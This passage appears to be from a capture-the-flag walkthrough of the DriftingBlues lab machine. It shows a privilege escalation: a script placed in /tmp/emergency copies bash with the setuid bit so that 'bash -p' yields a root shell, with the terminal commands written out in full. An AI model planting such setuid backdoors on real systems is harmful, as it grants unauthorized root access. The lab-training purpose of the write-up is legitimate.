


5.3 Create a custom backdoor
The “/tmp/emergency” file doesn't exist, but you can create it with a custom bash script.
1. Create a custom bash script on the victim machine.
eric@driftingblues:/$cd tmp
eric@driftingblues:/tmp$nano emergency
eric@driftingblues:/tmp$chmod +x /tmp/emergency
eric@driftingblues:/tmp$nano emergency
eric@driftingblues:/tmp$chmod +x /tmp/emergency
Add this code to the “emergency” script.
#!/bin/bashcp /bin/bash /tmp/bash && chmod +s /tmp/bash• The above line copies the binary bash and gives the setuid permission to it.
• When the “root” user executes this line, we will get a copy of bash with setuid permission of “root”.
• You can simply put
-p flag and impersonate “root”. 2. Run the “pspy32” script.
./pspy32
Wait at least a minute.
Output:

3. Impersonate the “root” user.
eric@driftingblues:/tmp$bash -p
Output:

You got a “root” shell.